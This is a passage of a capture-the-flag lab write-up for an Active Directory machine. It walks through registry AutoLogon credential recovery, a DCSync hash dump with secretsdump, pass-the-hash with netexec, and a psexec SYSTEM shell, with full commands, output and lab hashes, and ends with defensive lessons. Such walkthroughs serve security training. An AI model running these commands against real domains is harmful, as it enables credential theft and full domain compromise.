

AutoLogon credentials are stored in the Windows registry under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`. They are set by administrators who want a machine to boot directly into a user session without requiring manual login — common on kiosk machines, server appliances, and automated workstations. The password is stored in plaintext. WinPEAS reads this registry key and surfaces it immediately.

Credentials recovered: `svc_loanmgr` : `Moneymakestheworldgoround!`

The username in the registry says `svc_loanmanager` but the actual account is `svc_loanmgr` — a discrepancy in how the AutoLogon entry was configured. The password is what matters.

---

### Step 11 — DCSync Attack with Secretsdump

**Goal:** Use svc_loanmgr's DCSync rights to dump all domain credential hashes.

DCSync is an attack that abuses Active Directory's replication protocol. Domain Controllers replicate password data between each other using the MS-DRSR (Directory Replication Service Remote Protocol). The rights `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` together allow any principal — not just a DC — to request that replication. Impacket's `secretsdump` uses these rights to pull the NTDS.dit credential data without touching the filesystem.

```bash
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.129.95.180
```

Enter password: `Moneymakestheworldgoround!`

```
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:...
EGOTISTICAL-BANK.LOCAL\FSmith:1105:...
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:...
SAUNA$:1000:...
[*] Kerberos keys grabbed
```



All domain hashes extracted. The format is `username:RID:LMhash:NThash:::`. The LM hash `aad3b435b51404eeaad3b435b51404ee` is the null LM hash — Windows has not stored a real LM hash. The NT hash is what matters.

The NT hash is the second part after the third colon:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

Administrator NT hash: **`823452073d75b9d1cf70ebdf86c7f98e`**



---

### Step 12 — Pass-the-Hash to Administrator

**Goal:** Authenticate as Administrator using the NTLM hash directly — no password cracking required.

Pass-the-Hash is an authentication technique that exploits NTLM's challenge-response protocol. NTLM authentication never transmits the plaintext password — it uses the NT hash to sign a challenge. If an attacker possesses the NT hash, they can complete NTLM authentication without knowing the underlying password. The hash IS the credential.

Verify access with netexec:

```bash
nxc smb 10.129.95.180 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

`-H` specifies hash authentication. The format accepted is the full `LMhash:NThash` or just the NT hash alone.

```
SMB  10.129.95.180  445  SAUNA  [+] EGOTISTICAL-BANK.LOCAL\administrator:823452073d75b9d1cf70ebdf86c7f98e (Pwnd!)
```



Administrator access confirmed. Get a full SYSTEM shell using psexec:

```bash
psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.129.95.180 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

`-hashes` takes the full `LMhash:NThash` format. psexec uploads a service binary to a writable share, registers it as a Windows service, starts it, and returns a shell running as SYSTEM — higher than Administrator.

```
[*] Requesting shares on 10.129.95.180.....
[*] Found writable share ADMIN$
[*] Uploading file SsCKHdeS.exe
[*] Opening SVCManager on 10.129.95.180.....
[*] Creating service IyPE on 10.129.95.180.....
[*] Starting service IyPE.....
Microsoft Windows [Version 10.0.17763.973]

C:\Windows\system32> whoami
nt authority\system
```



Shell obtained as `NT AUTHORITY\SYSTEM` — the highest privilege level on a Windows machine.

```
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
```



**Root flag captured. Machine fully owned.**

---

## 📌 Conclusion

* **Employee names on a public website are a reconnaissance goldmine** — the entire initial foothold chain began with names listed on a corporate About Us page. Username generation from real names against Kerberos is a technique that works in real environments and does not require touching any firewall-facing service aggressively.

* **AS-REP Roasting requires no credentials** — the `DONT_REQUIRE_PREAUTH` flag is a misconfiguration that exposes an account's password hash to anyone who asks the KDC. A single `net user /domain username` check in the registry is all an admin needs to see if this is set. It should never be set unless an application specifically requires it.

* **DCSync is a game-over condition** — once a non-DC principal has DS-Replication-Get-Changes-All, the entire domain is compromised. There is no need to touch NTDS.dit on disk, no need for local admin on the DC, and no need to crack anything. Every hash in the domain is available. BloodHound is the tool that surfaces this path; without it, the svc_loanmgr DCSync rights might never have been noticed.
---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>
